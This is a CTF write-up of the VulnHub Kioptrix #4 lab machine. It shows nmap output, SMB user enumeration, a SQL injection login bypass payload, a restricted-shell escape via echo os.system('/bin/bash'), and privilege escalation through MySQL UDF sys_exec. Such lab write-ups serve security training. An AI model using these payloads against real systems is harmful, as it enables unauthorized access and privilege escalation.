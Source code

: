 ```yaml
---
title: "VulnHub - Kioptrix #4"
author: Nasrallah
description: ""
date: 2023-01-09 00:00:00 +0000
categories: [VulnHub]
tags: [vulnhub, linux, easy, udf, mysql, sqli]
img_path: /assets/img/vulnhub/kioptrix4
---
```



---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Kioptrix level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) from [VulnHub](https://www.vulnhub.com/).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 192.168.56.12                                                                                                                      [2/11]
Host is up (0.00020s latency).                                                                                                                                
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)                                                                             
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 08:00:27:EC:F8:25 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h29m58s, deviation: 3h32m07s, median: -1s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2022-12-18T11:38:27-05:00

```

Found 4 open ports:

 - 22/tcp OpenSSH 4.7p1

 - 80/tcp Apache httpd 2.2.8

 - 139/tcp Samba

 - 445/tcp Samba smbd 3.0.28a


## Web

Let's navigate to the web page.

![](1.png)

We found a login page, i tried some default credentials but no luck.

## SMB

Let's enumerate for smb shares.

![](2.png)

Nothing interesting, let's enumerate users.

![](3.png)

We found user john and robert.

# **Foothold**

Back to the login page, i tried to login using one of the username with different password but didn't succeed.

Then tried a sql injection and logged in successfully using this payload as password: `'-'`

![](4.png)

Great! We got john's password, let's use it to ssh into the machine.

![](5.png)


# **Privilege Escalation**

After we logged in, we saw that we can't execute lot of commands, but one command we can exploit is `echo`.

To get a bash shell, run `echo os.system('/bin/bash')`

![](6.png)

Great! Now let's check the web file and see if we can find any passwords.

```bash
john@Kioptrix4:/var/www$ cat checklogin.php 
<?php                                                                          
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password                                                                                                                               
$db_name="members"; // Database name
$tbl_name="members"; // Table name

```

Sql uses default credentials root:(nopassword).

Using Mysql [UDF](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html), let's connect to mysql server and run the command `select sys_exec('usermod -a -G admin john');`

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
